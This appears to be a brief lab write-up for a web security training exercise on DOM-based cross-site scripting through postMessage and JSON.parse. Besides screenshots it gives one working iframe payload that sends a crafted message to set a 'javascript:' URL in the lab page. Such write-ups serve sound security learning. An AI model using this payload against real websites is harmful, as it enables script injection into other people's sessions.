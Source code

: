 # DOM XSS using web messages and JSON.parse

![image](https://user-images.githubusercontent.com/60841283/153748114-09006135-d5fa-4fd7-9723-db0195328481.png)

![image](https://user-images.githubusercontent.com/60841283/153748191-0ff7f8cf-780a-4e25-9f3a-8647e086849b.png)

Payload in exploit server (in Body section) :- 
```html
<iframe src="https://aced1f861f364f39c07a349c00ab0011.web-security-academy.net/#" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153748070-22690cd2-b548-4f56-846c-bbc20163f2c1.png)
